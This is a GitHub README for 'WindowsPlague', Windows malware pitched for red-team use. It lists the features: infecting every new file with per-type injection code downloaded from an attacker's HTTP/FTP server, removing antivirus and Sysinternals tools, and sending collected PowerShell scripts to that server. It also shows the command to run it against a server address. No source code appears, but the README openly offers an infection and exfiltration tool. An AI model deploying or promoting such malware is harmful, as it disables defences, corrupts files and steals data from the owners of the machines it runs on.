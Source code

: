 # PlagueWindows

![logo](https://raw.githubusercontent.com/M507/WindowsPlague/master/Fullp.png)

WindowsPlague is Windows Malware built for Red-Team activities. 

### Futures:
----------
* Infects every new file in the system.
* Customized injections for each file.
* Quick removal for any antivirus.
* Quick removal for all Sysinternals binaries.
* Collects all ps1 files and transfers them to FTP server, to analyse.

### How does it work?
----------
It needs a server that must have:

| File name | Description                  |
|-----------|------------------------------|
| Ips1.dll  | for Powershell files.        |
| Iasp.dll  | for asp and aspx files.      |
| Ibat.dll  | for Batch files.             |
| Iphp.dll  | for PHP files.               |
| Itxt.dll  | for txt files.               |
| antiu.dll | for all prohibited keywords. |


Each dll file should have the injection code for each type of file.
Thus, each PHP file will be injected by the contact of Iphp.dll.

For example, If you do not want to inject txt files, do write anything in Itxt.dll, and this way it will not inject anything in txt files. But Itxt.dll must exist in the HTTP/FTP server.

### Run
----------
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Mohd> WindowsPlague.exe <HTTP/FTP server>
```

<HTTP/FTP server> Is needed so that the WindowsPlague can download all the .dll files from and whenever it finds a ps1 file sends it to <HTTP/FTP server>. 
